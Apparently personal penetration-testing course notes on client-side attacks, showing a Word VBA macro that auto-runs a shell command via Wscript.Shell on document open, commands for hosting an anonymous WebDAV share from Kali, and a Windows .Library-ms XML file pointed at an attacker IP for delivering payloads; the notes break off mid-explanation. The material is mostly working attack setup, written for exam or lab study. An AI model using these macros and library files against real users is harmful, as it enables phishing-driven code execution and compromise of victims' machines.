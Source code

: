 ```

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## 12.3.1 Obtaining Code Execution via Windows Library Files
### Prep WebDAV Share

```bash
sudo apt install python3-wsgidav   # install WebDAV share

mkdir /home/kali/hacking/tools/webdav
touch /home/kali/hacking/tools/webdav/test.txt

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/hacking/tools/webdav/
test at 127.0.0.1 in browser
```
### Create Library-ms file
- Open VSC/notepad
- save empty file named config.Library-ms on the users desktop
- Library files have 3 major parts
- written in XML to specify parameters for accessing remote locations
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.158</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>


<!--
<name>@windows.storage.dll,-34582</name>
This specifies the name of the library, not arbitrary

<version>6</version>
this can be whatever we want
```